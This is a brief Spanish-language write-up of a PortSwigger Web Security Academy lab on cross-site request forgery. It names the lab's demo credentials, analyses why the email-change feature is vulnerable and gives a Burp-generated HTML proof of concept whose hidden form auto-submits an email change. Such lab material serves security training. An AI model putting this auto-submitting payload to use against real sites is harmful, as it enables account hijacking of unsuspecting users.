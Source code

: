 # Lab 1 CSRF Vulnerability with no defenses 

Tags: #CSRF #PortSwigger

Explotar el CSRF y cambiar la dirección de correo 
Creds - wiener:peter 

## Sección de análisis 

```bash 
1. Una acción relevante                            - Funcionalidad de cambio de email 
2. Manejo de una sesión basada en Cookie           - Sesión de Cookie 
3. Parámetro de petición imprevisible              
```

## CSRF PoC - HTML

```HTML 
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ac7001d03cc4e768530088d007d0021.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="o&#64;o&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

